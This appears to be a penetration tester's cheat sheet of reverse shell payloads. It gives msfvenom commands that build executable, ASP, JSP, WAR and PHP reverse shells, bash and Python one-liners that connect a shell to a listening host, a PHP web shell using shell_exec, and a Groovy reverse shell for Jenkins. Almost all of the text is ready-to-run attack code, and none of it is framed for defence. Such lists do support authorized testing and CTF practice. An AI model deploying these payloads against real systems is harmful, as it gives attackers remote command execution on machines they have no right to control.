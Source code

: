 ## Reverse Shells

```bash
https://www.revshells.com/
```

## Msfvenom

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=IP LPORT=<PORT> -f raw > shell.php
```

## One Liners

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
```php
<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>
# For bash use the encrypted tool that's in Tools folder
```

<aside>
💡 While dealing with PHP reverseshell use: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

</aside>

## Groovy reverse-shell

- For Jenkins

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---
